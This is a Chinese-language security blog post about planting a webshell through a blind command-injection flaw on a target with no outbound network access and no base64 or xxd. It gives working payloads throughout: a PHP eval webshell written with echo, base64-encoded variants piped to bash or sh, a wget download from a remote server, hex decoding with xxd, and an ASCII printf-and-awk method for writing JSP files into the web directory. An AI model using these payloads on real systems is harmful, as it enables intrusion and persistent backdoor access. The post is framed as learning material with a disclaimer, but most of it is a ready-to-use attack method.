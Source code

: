 #  命令执行不出网、无回显、连基础工具base64/xxd都没有？极限生存下的命令执行，怎么打？   
原创 跟着斯叔唠安全  跟着斯叔唠安全   2025-05-08 06:01  
  
免责声明  
：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
1  
  
Start  
  
    前端时间碰到一个站点，本身那个框架存在一个无回显的命令执行漏洞，平时验证的时候都是让它ping一下dnslog，但是那个站点执行ping动作后，dnslog没有一点反应，but执行payload的响应跟存在漏洞的响应返回非常相似，怀疑是个不出网的设备。漏洞的细节暂不公开，咱们今天主要聊聊极限环境下如何利用这个命令执行写入webshell。  
  
  
2  
  
Action  
  
    在搞之前咱们先回顾一下通常情况下的命令执行，我们如何写webshell呢？  
  
========================================================  
  
以下内容主要借鉴文章：  
https://developer.volcengine.com/articles/7381516634714079242  
  
========================================================  
1、echo直接写入  
```
echo '<?php eval($\_POST[1]); ?>' > 1.php
```  
  
直接写入webshell一般不会成功，因为webshell中使用的某些关键符号可能被转码或屏蔽  
  
2、  
base64写入  
```
echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==" | base64 -d >2.php
```  
  
使用base64是比较通用的方法，完美去除了webshell本身的特殊字符  
  
3、  
绕过重定向符  
```
echo "ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE95QS9QZz09IiB8IGJhc2U2NCAtZCA+My5waHA=" | base64 -d | bash
```  
```
echo "ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE95QS9QZz09IiB8IGJhc2U2NCAtZCA+My5waHA=" | base64 -d | sh
```  
  
重定向符>不可用时，我们可以将1或2中的整体命令base64编码，然后解码后通过bash或sh执行，  
其他字符绕过方式，如空格对应${IFS}等  
  
4、  
远端下载webshell  
```
远端服务器放置webshell,开启http
python -m http.server

目标机器执行
wget http://xx.xx.xxx.xx:8000/xxx.php
```  
  
可出网且有wget的情况下可采用此方式  
  
5、  
hex写入  
  
hex写入与base64写入相似，在 https://www.107000.com/T-Hex/  
  
将webshell编码成hex，使用xxd命令还原  
  
或在使用前将webshell使用xxd生成hex数据  
```
echo '<?php eval($\_POST[1]); ?>' |xxd -ps
```  
  
然后命令注入执行  
```
echo 3C3F706870206576616C28245F504F53545B315D293B203F3E|xxd -r -ps > 5.php
```  
  
========================================================  
  
    常见的命令执行写webshell的方式如上所示，显然第4项直接pass，因为不出网。第一项echo直接写入，也限制住了，正如上文所说  
webshell中使用的某些关键符号可能被转码或屏蔽。能走的法子就剩下base64和xxd方式了。崩溃的是目标服务器上这两个命令都没有，可以说是相当的纯净。  
  
  
    那就没其他法子了吗？就只能放弃了吗？除了base64编码，hex编码，还能有啥编码方式呢？而且最好还是linux系统自带的，不需要借助其他工具就能解析的编码方式？  
  
  
    终于是，让我成功想到了一个不借助其他第三方工具，  
linux系统本身就能解析的一种编码方式，那就是--ASCII码！！！  
  
  
    思路有了，下面就是实践了。具体该怎么实操呢？假如，我们需要向1.jsp里面写入<%out.print("1");%>内容，那我们便可以在本机电脑上创建一个python脚本  
```
# 要处理的字符串
text = '<%out.print("1");%>'
# 打开文件以写入
with open('ascii_values.txt', 'w') as file:
    for char in text:
        # 写入每个字符的 ASCII 值，每行一个
        file.write(f"{ord(char)}\n")
```  
    结果长这样```
60
37
111
117
116
46
112
114
105
110
116
40
34
49
34
41
59
37
62
```  
  
    上面的就是每个字符串的ASCII码值，然后将上面的内容排列成这样的格式  
```
60\n37\n111\n117\n116\n46\n112\n114\n105\n110\n116\n40\n34\n49\n34\n41\n59\n37\n62\n
```  
  
    再在命令执行的地方输入payload  
```
printf "60\n37\n111\n117\n116\n46\n112\n114\n105\n110\n116\n40\n34\n49\n34\n41\n59\n37\n62\n" > /xxxxx/1.txt
```  
  
    这时候只是将它写入到了1.txt中了，下面就是将1.txt中的ASCII码内容处理成解码后的状态，再执行命令  
```
awk '{ printf "%c", $1 }' /xxxxx/1.txt > /xxxxx/1.jsp
```  
  
    如果不懂这是啥意思，可以请教一下GPT/Deepseek  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UbMzxvewrvh9MvTjx8TUAj4PI5R1cjqyQeiaCXjuSE8I3N3kWWfQ1CwTGJ3U46oJbmicwaNeXxQDr5w/640?wx_fmt=png&from=appmsg "")  
  
    至此，就成功将  
<%out.print("1");%>不借助任何第三方的工具写入到了web目录下的1.jsp文件中了  
  
    同样的照这个方式即可写入webshell文件。  
  
  
3  
  
End  
  
      
业务咨询/网络安全教学可添加主页微信咨询，欢迎打扰～  
  
      
  
  
  
  
  
